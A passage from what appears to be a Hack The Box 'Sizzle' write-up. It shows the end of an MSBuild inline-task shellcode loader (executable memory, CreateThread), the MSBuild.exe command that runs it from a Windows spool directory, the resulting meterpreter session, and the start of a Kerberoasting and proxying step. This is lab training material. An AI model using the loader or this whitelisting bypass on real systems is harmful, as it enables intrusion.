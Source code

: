 ```
                MEM_COMMIT, PAGE_EXECUTE_READWRITE);
              Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
              IntPtr hThread = IntPtr.Zero;
              UInt32 threadId = 0;
              IntPtr pinfo = IntPtr.Zero;
              hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
              WaitForSingleObject(hThread, 0xFFFFFFFF);
              return true;
          } 
        }     
      ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```
`C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\windows\system32\spool\drivers\color\shellcode.xml`
![](/images/hackthebox/sizzle/37.png)
<br> This time it worked and I got `meterpreter` !
![](/images/hackthebox/sizzle/38.png)
<hr>
## Kerberoasting, Privilege Escalation
<br> Now we have a `meterpreter` session, we can route the internal subnet, use a proxy then use `GetUserSPNs.py` and see if any user is kerberoastable. This technique is covered [here](https://www.blackhillsinfosec.com/a-toast-to-kerberoast/)
<br> First thing is to configure `proxychains` to use port 8080 :
`/etc/proxychains.conf`
![](/images/hackthebox/sizzle/39.png)
<br> Then we will use `auxiliary/server/socks4a` to add the route and set up the proxy :